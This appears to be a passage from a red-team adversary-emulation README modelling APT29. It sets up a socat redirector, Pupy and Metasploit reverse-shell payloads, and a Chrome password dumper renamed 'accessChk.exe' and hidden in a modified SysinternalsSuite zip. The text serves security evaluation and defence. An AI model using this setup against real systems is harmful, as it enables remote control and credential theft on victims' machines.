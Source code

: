 **Note:** The Windows attack platform is only required if you would like to compile the Day 1 payloads. If you use the pre-compiled payloads, you do not need this system.

## Red Team Setup

This methodology assumes the following static IP address configurations:

| Red Team System | IP Address |
| ------ | ------ |
| Attack Platform | 192.168.0.4 |
| Redirector | 192.168.0.5 |

### A note about red team payloads

This evaluation utilizes four payloads that model APT29 malware.

The payloads are customized variants of reverse shells from Pupy RAT and Metasploit.

Pre-compiled payloads are available in the `payloads` directory; however, they are configured to connect back to static IP addresses 192.168.0.5 and 192.168.0.4.

If you would like to build the payloads yourself, please see `payload_configs.md` for further instructions.

### Setup Redirector: 192.168.0.5 (or the value used for the Redirector IP)

From the redirector system, setup port forwarding using Socat

```
sudo socat TCP-LISTEN:443,fork TCP:192.168.0.4:443 & sudo socat TCP-LISTEN:1234,fork TCP:192.168.0.4:1234 & sudo socat TCP-LISTEN:8443,fork TCP:192.168.0.4:8443 &
```

### Setup Attack Platform: 192.168.0.4

1. Download Chrome password dumper tool from: <https://github.com/adnan-alhomssi/chrome-passwords/raw/master/bin/chrome-passwords.exe>
2. Download SysInternals zip folder from: <https://download.sysinternals.com/files/SysinternalsSuite.zip>
3. Unzip `SysinternalsSuite.zip`; copy the following files into the SysInternalsSuite directory:
    * `readme.txt`
    * `psversion.txt`
    * `psversion.txt`
    * `chrome-passwords.exe` (renamed as `accessChk.exe`)
    * `strings64.exe` (compiled from `hostui.cpp`)
4. Zip modified SysinternalsSuite folder
5. Install Pupy and Metasploit on Attack Platform by running `install_day1_tools.sh`
6. Start Pupy docker container then the EC4 listener
    1. `sudo pupy/start-compose.sh`
    2. `listen -a ec4`

## Victim Setup
